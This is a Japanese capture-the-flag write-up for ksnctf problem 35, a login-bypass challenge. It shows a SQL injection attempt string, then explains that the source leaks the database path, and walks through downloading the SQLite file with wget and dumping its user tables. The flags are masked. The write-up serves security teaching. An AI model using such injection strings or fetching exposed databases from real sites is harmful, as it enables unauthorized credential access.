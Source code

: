 # 問題
simple vulnerability  
http://ctfq.sweetduet.info:10080/~q35/auth.php  
source



# 問題について
簡単な認証を突破してフラグをゲットしましょう！！  
....？本当にそうでしょうか...よく考えてみてください。  

確かに、IDとパスワード認証できるのでSQLインジェクションで抜ける気もしますが...



# 解法

1. まず、 ' or ' ' = ' ;' -- をやればできるだろう。と思ったあなたはここで挫折するかもしれません。


1. とてもシンプルです。添付されているソースを読んでみましょう。
    ```php
    if ($_POST['id']!=='' or $_POST['password']!=='')
    {
        $try = true;
        $db = new PDO('sqlite:database.db');
        $s = $db->prepare('SELECT * FROM user WHERE id=? AND password=?');
        $s->execute(array($_POST['id'], $_POST['password']));
        $ok = $s->fetch() !== false;
    }
    ```
   ...データベースの場所モロバレですね。




3. wgetで回収してみましょう

    ### ダウンロード
    ```
    nyancat86@ubuntu:~/git/ksnctf/35_SimpleAuthII/work$ wget http://ctfq.sweetduet.info:10080/~q35/database.db
    --2018-07-20 15:04:42--  http://ctfq.sweetduet.info:10080/~q35/database.db
    ctfq.sweetduet.info (ctfq.sweetduet.info) をDNSに問いあわせています... 49.212.153.157, 2403:3a00:202:1210:49:212:153:157
    ctfq.sweetduet.info (ctfq.sweetduet.info)|49.212.153.157|:10080 に接続しています... 接続しました。
    HTTP による接続要求を送信しました、応答を待っています... 200 OK
    長さ: 2048 (2.0K) [text/plain]
    `database.db' に保存中

    database.db              100%[==================================>]   2.00K  --.-KB/s    時間 0s    

    2018-07-20 15:04:42 (72.1 MB/s) - `database.db' へ保存完了 [2048/2048]
    ```
    ### ファイルがあるか確認

    ```
    nyancat86@ubuntu:~/git/ksnctf/35_SimpleAuthII/work$ ls
    database.db  source
    ```


1. ファイルを解析しましょう

   ### fileコマンドでデータベースファイルの情報を確認

    ```
    nyancat86@ubuntu:~/git/ksnctf/35_SimpleAuthII/work$ file database.db 
    database.db: SQLite 3.x database, last written using SQLite version 3008006
    ```

    SQLite3のデータベースであることがわかりました。


   ### sqlite3を使って見てみましょう

    ```sql
    nyancat86@ubuntu:~/git/ksnctf/35_SimpleAuthII/work$ sqlite3 database.db 
    SQLite version 3.22.0 2018-01-22 18:45:57
    Enter ".help" for usage hints.

    ### テーブル一覧を表示させる ###
    sqlite> .table
    user   user2

    ### userのなかみを見る ###

    sqlite> select * from user;
    root|**********************

    ### user2の中身を見る ###
    sqlite> select * from user2;
    root|**********************
    ```

    フラグを手に入れよう！


